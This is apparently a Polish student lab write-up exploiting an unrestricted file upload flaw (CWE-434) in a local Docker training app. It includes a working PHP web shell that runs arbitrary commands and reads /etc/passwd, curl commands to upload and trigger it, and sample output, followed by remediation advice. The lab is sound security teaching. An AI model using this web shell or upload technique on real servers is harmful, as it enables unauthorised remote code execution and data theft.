



# Zadanie 5.1 — Arbitrary File Upload → RCE (CWE-434)

**Cel:** serwer HTTP na `127.0.0.1:8001` pozwala wgrywać pliki do `/uploads`
bez walidacji typu/rozszerzenia. Wgrywając plik `.php`, doprowadzamy do
**zdalnego wykonania kodu (RCE)** i wyświetlamy `/etc/passwd`.

- **Podatność:** CWE-434 (Unrestricted Upload of File with Dangerous Type)
- **Serwer:** Apache/2.4.54 (Debian), aplikacja „FileX / File Transfer"
- **Katalog uploadów:** `http://127.0.0.1:8001/uploads/`

---

## a) Uruchomienie podatnego serwera

```bash
sudo docker run -dp 8001:80 --name rcex1 docker.io/mazurkatarzyna/rce-ex1
```

Aplikacja dostępna pod `http://127.0.0.1:8001`, wgrane pliki pod `http://127.0.0.1:8001/uploads`.

---

## b) Atak — wgranie web shella i odczyt /etc/passwd

### 1. Przygotowany plik PHP (`shell.php`)

Hint z zadania: funkcją PHP wyświetlającą zawartość pliku jest **`readfile()`**
(alternatywy: `file_get_contents()`, `system('cat ...')`).

```php
<?php
echo "<pre>";
if (isset($_GET['cmd'])) {
    system($_GET['cmd'] . ' 2>&1');          // pełne RCE
} else {
    $file = isset($_GET['file']) ? $_GET['file'] : '/etc/passwd';
    readfile($file);                          // odczyt pliku
}
echo "</pre>";
?>
```

### 2. Wgranie pliku

Przez formularz na stronie głównej (albo `curl`):

```bash
curl -F "file=@shell.php" http://127.0.0.1:8001/
```



### 3. Lokalizacja wgranego pliku

Serwer dodał przedrostek z timestampem i zapisał plik jako
`1791800113_shell.php`. Nazwę podejrzano w listingu katalogu:

```
http://127.0.0.1:8001/uploads/
```



### 4. Uruchomienie i odczyt /etc/passwd

```
http://127.0.0.1:8001/uploads/1791800113_shell.php
```

Serwer **wykonał** wgrany kod PHP i zwrócił zawartość `/etc/passwd`:



```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

### 5. Dowód pełnego RCE (wykonywanie komend)

```bash
curl "http://127.0.0.1:8001/uploads/1791800113_shell.php?cmd=id"
curl "http://127.0.0.1:8001/uploads/1791800113_shell.php?cmd=uname%20-a"
```

`id` zwraca użytkownika serwera (`www-data`) — potwierdza wykonanie dowolnych
poleceń systemowych, nie tylko odczyt pliku.

---

## Na czym polega błąd

Aplikacja zapisuje przesłany plik do `/uploads` **bez sprawdzenia rozszerzenia
ani typu MIME**, a Apache w tym katalogu interpretuje pliki `.php`. Dzięki temu
atakujący wgrywa i uruchamia własny kod po stronie serwera.

## Jak naprawić

- Whitelist dozwolonych rozszerzeń i weryfikacja rzeczywistego typu pliku
  (np. `finfo`), nie tylko nagłówka od klienta.
- Zapis uploadów poza katalogiem serwowanym przez web / wyłączenie wykonywania
  PHP w `/uploads` (`php_admin_flag engine off`).
- Losowa nazwa pliku i wymuszone, bezpieczne rozszerzenie.
- Wyłączenie listowania katalogów (`Options -Indexes`).
